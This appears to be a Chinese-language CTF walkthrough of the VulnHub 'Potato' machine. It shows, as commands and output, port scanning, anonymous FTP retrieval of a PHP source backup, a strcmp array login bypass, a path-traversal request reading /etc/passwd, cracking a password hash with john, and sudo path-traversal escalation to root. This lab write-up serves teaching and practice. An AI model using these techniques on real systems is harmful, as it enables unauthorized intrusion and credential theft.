





# Potato

> https://download.vulnhub.com/potato/Potato.ova

靶场IP：`192.168.2.15`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.15
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 09:22 EDT
Nmap scan report for 192.168.2.15
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
2112/tcp open  ftp     ProFTPD
MAC Address: 08:00:27:22:EF:2E (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds

```

ftp匿名登录

```
┌──(root㉿kali)-[~]
└─# ftp 192.168.2.15 2112
Connected to 192.168.2.15.
220 ProFTPD Server (Debian) [::ffff:192.168.2.15]
Name (192.168.2.15:root): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.2.5 !
230-
230-The local time is: Thu Sep 08 13:24:37 2022
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||60607|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Aug  2  2020 .
drwxr-xr-x   2 ftp      ftp          4096 Aug  2  2020 ..
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||63907|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901        1.86 MiB/s 
226 Transfer complete
901 bytes received in 00:00 (797.71 KiB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||37275|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54        2.34 MiB/s 
226 Transfer complete
54 bytes received in 00:00 (68.39 KiB/s)

```

查看两个文件

```
┌──(root㉿kali)-[~]
└─# cat index.php.bak 
<html>
<head></head>
<body>

<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>


  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>

                                                                                                                                                                                                                                           
┌──(root㉿kali)-[~]
└─# cat welcome.msg  
Welcome, archive user %U@%R !

The local time is: %T

```

浏览器访问80端口



爆破目录

```
┌──(root㉿kali)-[~]
└─# dirb http://192.168.2.15/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep  8 09:37:48 2022
URL_BASE: http://192.168.2.15/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.2.15/ ----
==> DIRECTORY: http://192.168.2.15/admin/                                                                                                                                                                                                 
+ http://192.168.2.15/index.php (CODE:200|SIZE:245)                                                                                                                                                                                       
+ http://192.168.2.15/server-status (CODE:403|SIZE:277)                                                                                                                                                                                   
                                                                                                                                                                                                                                          
---- Entering directory: http://192.168.2.15/admin/ ----
+ http://192.168.2.15/admin/index.php (CODE:200|SIZE:466)                                                                                                                                                                                 
==> DIRECTORY: http://192.168.2.15/admin/logs/                                                                                                                                                                                            
                                                                                                                                                                                                                                          
---- Entering directory: http://192.168.2.15/admin/logs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Thu Sep  8 09:37:50 2022
DOWNLOADED: 9224 - FOUND: 3

```

通过`username[]=""&password[]=""`如下所示的方式绕过。



会跳转到`/admin/dashboard.php`



查看日志功能有文件包含漏洞

```
POST /admin/dashboard.php?page=log HTTP/1.1
Host: 192.168.2.15
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://192.168.2.15
Connection: close
Referer: http://192.168.2.15/admin/dashboard.php?page=log
Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh
Upgrade-Insecure-Requests: 1

file=../../../../../../etc/passwd

```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
florianges:x:1000:1000:florianges:/home/florianges:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
proftpd:x:112:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:113:65534::/srv/ftp:/usr/sbin/nologin
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash
```



爆破webadmin用户的密码为：`dragon`

```sh
┌──(root㉿kali)-[/tmp]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash             
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dragon           (webadmin)     
1g 0:00:00:00 DONE (2022-09-08 09:47) 100.0g/s 19200p/s 19200c/s 19200C/s 123456..november
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                    
┌──(root㉿kali)-[/tmp]
└─# cat hash 
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/

```

使用webadmin用户登录



查看sudo列表

```
webadmin@serv:~$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*

```

提权成功

```
webadmin@serv:~$ sudo /bin/nice 
Sorry, user webadmin is not allowed to execute '/bin/nice' as root on serv.
webadmin@serv:~$ sudo /bin/nice  /notes/../bin/bash
root@serv:/home/webadmin# id
uid=0(root) gid=0(root) groups=0(root)

```

